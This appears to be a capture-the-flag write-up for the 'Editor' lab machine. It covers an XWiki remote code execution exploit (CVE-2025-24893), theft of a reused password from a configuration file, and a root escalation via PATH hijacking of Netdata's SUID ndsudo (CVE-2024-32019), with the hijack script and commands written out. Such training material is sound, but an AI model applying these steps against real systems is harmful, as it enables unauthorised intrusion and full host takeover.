

# Editor



Editor is an easy-difficulty Linux machine that focuses on web application exploitation followed by local privilege escalation. Initial enumeration reveals a web application exposing an XWiki instance, which is identified as vulnerable to [CVE-2025-24893](https://nvd.nist.gov/vuln/detail/CVE-2025-24893), a remote code execution flaw in the SolrSearch endpoint. By adapting a public proof-of-concept, Groovy code injection is achieved, allowing arbitrary command execution and providing a shell as the xwiki user. Post-exploitation enumeration of the system reveals additional local users and misconfigurations that allow lateral movement to the user oliver. Further analysis of the system uncovers a privilege escalation vector involving a misconfigured SUID binary that relies on environment-controlled execution. By abusing PATH manipulation, a malicious binary is executed in place of a trusted system binary, resulting in execution with elevated privileges and ultimately granting root acces

## Reconnaissance

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editor.htb/
8080/tcp open  http    Jetty 10.0.20
| http-title: XWiki - Main - Intro
|_Requested resource was http://10.129.223.246:8080/xwiki/bin/view/Main/
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Jetty(10.0.20)
| http-cookie-flags:
|   /:
|     JSESSIONID:
|_      httponly flag not set
| http-methods:
|_  Potentially risky methods: PROPFIND LOCK UNLOCK
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/
|_/xwiki/bin/undelete/
| http-webdav-scan:
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
|_  Server Type: Jetty(10.0.20)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The Nmap results show a redirect to `editor.htb` on port 80, so I add that host entry locally. Port 8080 appears to be running XWiki, which gives me a strong starting point for the web attack path.

## Initial Access

Visiting `http://editor.htb` presents download links for a futuristic editor named SimplistCode Pro. The site looks more like a product landing page, so I check the documentation next.

The docs are hosted at `wiki.editor.htb`, so I add that to my hosts file as well. The page confirms this is an XWiki instance, and the footer shows version 15.10.8. That version is old enough to trigger a quick vulnerability search, which leads me to CVE-2025-24893 https://github.com/advisories/GHSA-rr6p-3pfg-562j, an unauthenticated remote code execution issue in XWiki. A public exploit is available and works as a starting point.

My first attempt fails because the target is served from `/xwiki/` instead of the root path. After adjusting the exploit so the URL is joined correctly, the payload runs as expected and returns `xwiki` for `whoami`.

```bash
$ python3 CVE-2025-24893-EXP.py -u 'http://wiki.editor.htb/xwiki/' -c whoami
```

Once that works, I use the same primitive to pull back a reverse shell on the target.

## User Access

With shell access as `xwiki`, I start looking for ways to reach a real user. The XWiki configuration files under `/etc/xwiki` contain database credentials, and one of them stands out immediately.

```bash
$ grep -i password /etc/xwiki/hibernate.cfg.xml
```

The password `theEd1t0rTeam99` works over SSH for `oliver`, which gives me a proper user shell and the first flag. Credential reuse is the bridge from application compromise to interactive access here.

## Privilege Escalation

After logging in as `oliver`, I check the account details and find that the user is in the `netdata` group. That is interesting enough to warrant deeper enumeration, and searching the filesystem confirms there is a Netdata installation under `/opt/netdata`.

```bash
$ id
uid=1000(oliver) gid=1000(oliver) groups=1000(oliver),999(netdata)

$ find / -group netdata 2>/dev/null
```

Netdata exposes a web interface on port 19999, so I forward that through SSH and inspect it in the browser. The dashboard already warns that the version is outdated, and the release notes point toward CVE-2024-32019. That vulnerability affects `ndsudo`, which can be abused when the binary resolves helper commands through the caller’s `PATH`. [web:2][web:3]

I verify that `ndsudo` exists and has the SUID bit set.

```bash
$ find /opt/netdata -iname ndsudo -exec ls -la {} \;
-rwsr-x--- 1 root netdata 200576 Apr  1  2024 /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
```

The help output also confirms that the program looks for executables in the system path, which makes PATH hijacking the obvious route. I place a malicious `nvme` script in `/dev/shm`, make it executable, and prepend that directory to `PATH`.

```bash
#!/usr/bin/env python3
import os

os.setuid(0)
os.system('/bin/bash')
```

```bash
$ chmod +x /dev/shm/nvme
$ export PATH=/dev/shm:$PATH
$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

That immediately drops me into a root shell, and from there I collect the final flag.

## Attack Path
- Enumerate the host to confirm SSH on 22, HTTP on 80, and XWiki on 8080.
- Add `editor.htb` and `wiki.editor.htb` to the hosts file to reach the main site and documentation.
- Inspect the XWiki footer to identify version 15.10.8.
- Research known issues for that XWiki release and focus on CVE-2025-24893.
- Adjust the exploit path so it targets `/xwiki/` correctly and verify command execution with `whoami`.
- Use the same RCE primitive to spawn a reverse shell as `xwiki`.
- Search XWiki configuration files for stored credentials and recover the password for `oliver`.
- SSH into the machine as `oliver` using the recovered password.
- Check group membership and notice `oliver` is part of `netdata`.
- Enumerate the Netdata installation under `/opt/netdata` and confirm `ndsudo` is SUID.
- Abuse `ndsudo` by placing a fake helper binary earlier in `PATH`.
- Trigger the vulnerable Netdata command path to get a root shell.
- Read the root flag and finish the box.
